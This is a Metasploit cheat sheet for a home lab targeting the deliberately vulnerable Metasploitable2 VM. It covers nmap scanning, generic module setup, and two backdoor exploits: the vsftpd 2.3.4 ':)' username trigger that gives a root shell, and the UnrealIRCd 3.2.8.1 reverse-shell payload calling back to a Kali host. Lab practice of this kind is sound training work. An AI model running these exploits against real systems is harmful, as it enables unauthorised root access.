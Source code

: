 ## 🧠 Home Lab Cheat Sheet

### Target: Metasploitable2  
> IP: `192.168.138.130` (your lab — change if needed)

---

### How to Identify Services
```bash
nmap -sV 192.168.138.130
```
Look for open ports + service versions to match known exploits.

---

### Common Metasploit Steps
```bash
use <exploit/module/path>
set RHOST <target IP>
set RPORT <target port>
set LHOST <Kali IP>
set PAYLOAD <payload>     # if needed
run
```

---

### PORT 21 – FTP
- **Service:** vsftpd 2.3.4  
- **Exploit Module:** `exploit/unix/ftp/vsftpd_234_backdoor`  
- **Payload:** None needed (built-in command shell)  
- **Notes:**
  - Opens a root shell backdoor on port 6200
  - Triggered by logging in with a `:)` in the username

---

### PORT 6667 – IRC
- **Service:** UnrealIRCd 3.2.8.1  
- **Exploit Module:** `exploit/unix/irc/unreal_ircd_3281_backdoor`  
- **Payload:** `cmd/unix/reverse`  
- **Options to Set:**
  ```bash
  set RHOST <target IP>
  set RPORT 6667
  set LHOST <Kali IP>
  ```
- **Result:** Reverse shell as `root`  
- **CVE:** [CVE-2010-2075](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-2075)

---

### Tips
- Always `nmap` first to find the right service version.
- Use `search <service/version>` in Metasploit to find modules.
- If it says “no payload selected,” choose one based on OS.
- If you get "no session created," check:
  - LHOST is correct
  - Firewall is off
  - Port actually open

